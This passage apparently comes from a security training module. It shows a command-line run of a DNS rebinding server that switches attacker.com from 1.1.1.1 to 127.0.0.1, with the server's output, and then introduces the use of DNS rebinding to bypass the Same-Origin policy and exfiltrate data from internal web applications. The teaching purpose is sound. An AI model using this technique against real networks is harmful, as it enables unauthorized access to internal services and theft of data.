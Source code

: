 ```shell
sudo python3 dnsrebinder.py --domain attacker.com --rebind 127.0.0.1 --ip 1.1.1.1 --counter 1 --tcp --udp

Starting nameserver...
UDP server loop running in thread: Thread-1
TCP server loop running in thread: Thread-2
Got a request for attacker.com. Type: A
------------------------ Counter for host  attacker.com.   1
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 17508
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
;attacker.com.                  IN      A
;; ANSWER SECTION:
attacker.com.           0       IN      A       1.1.1.1
Got a request for attacker.com. Type: A
---- Reply:
------------------------ Counter for host  attacker.com.   2
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 28417
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
;attacker.com.                  IN      A
;; ANSWER SECTION:
attacker.com.           0       IN      A       127.0.0.1
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 14084
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
;attacker.com.                  IN      AAAA

```


# DNS Rebinding: Same-Origin Policy Bypass

* * *

Having understood how to bypass SSRF filters with it, in this section, we will use DNS Rebinding to circumvent some of the restrictions imposed by the `Same-Origin` policy, enabling us to access web applications available only within the victims' local network and exfiltrate data from them.

* * *

## Setting & Methodology

Our goal is to exfiltrate data from a web application that we cannot directly access, for instance, because it runs in an internal network behind NAT or a firewall.

Since DNS rebinding is not a vulnerability in a particular web application, we will not step through a particular web application with the typical whitebox pen-testing methodology but rather discuss the methodology and exploitation of DNS rebinding.
